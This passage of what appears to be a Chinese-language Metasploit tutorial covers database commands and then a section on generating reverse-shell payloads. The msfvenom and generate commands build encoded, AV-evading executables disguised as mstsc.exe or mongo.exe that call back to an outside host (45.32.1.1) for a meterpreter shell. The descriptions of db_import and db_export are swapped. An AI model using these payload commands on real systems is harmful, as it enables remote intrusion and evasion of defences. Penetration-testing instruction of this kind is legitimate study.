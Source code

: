 加了地址就只显示这个地址的信息，-u 只显示 up 状态的主机，-c 只显示列信息比如-c address,mac 就只显示 ip 地址和 mac 信息，-S 是搜索结果中的关键词。

```bash
hosts [-u] [-c col1,col2] [-S] [ipadd]
```

可以显示 db\_nmap 扫描结果中 host 开放了那些端口，-p 1-1000 就只显示这个范围内开放的端口，和 hosts 使用方法类似，更多信息使用 -h 查看帮助文档。

```bash
services [-p port_num]
```

查看爆破出的密码信息。

```bash
creds
```

查看漏洞信息。

```bash
vulns
```

查看密码 hash 值。

```bash
loot
```

导入数据库，可以将 nmap 扫描结果的 xml 文件导入 msf 数据库中，导入后用 hosts 查看详细信息。

```bash
db_export
```

将 msf 数据库导出，-f 指定格式。

```bash
db_import -f xml path
```

### 生成 Payload 反弹 Shell

\-f 指定输出类型  
\-b 重新编码坏字符，坏字符会导致 ShellCode 执行失败  
\-e 指定编码器如果不填这个选项 msf 会自动选择最佳编码器，-i 5 编码 5 次  
\-s 14 会在 payload 前面加上 14 字节的 NOP(Next Operaction)，这个 NOP 是指无操作，EIP 寄存器遇到这个指令就会往下找下个字节一直到可以运行的字节，这样可能到达免杀效果 (在练习中无法使用这个选项，不知道怎么回事)  
\-k 在程序运行中不会产生新进程只会在进程中多出一个线程，也就是说运行 1.exe 不会产生一个 2.exe 出来  
\-x 使用 /root/mstsc.exe 作为模板  
\-o 将 payload 和模板绑在一起输出成 mm.exe 文件。

```bash
generate -f exe -b '\x00\xff' -i 10 -k -x /root/mstsc.exe -o /root/mm.exe
```

使用 msfvenom 工具生成 Payload，下面生成示例只是为了展示所有存在选项。

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86_64 --platform windows LHOST=45.32.1.1 LPORT=6000 -e x64/xor_dynamic -i 15 -b PrependMigrate=true PrependMigrateProc=svchost.exe -x ./mongo.exe -k -f exe -o ./1.exe
```
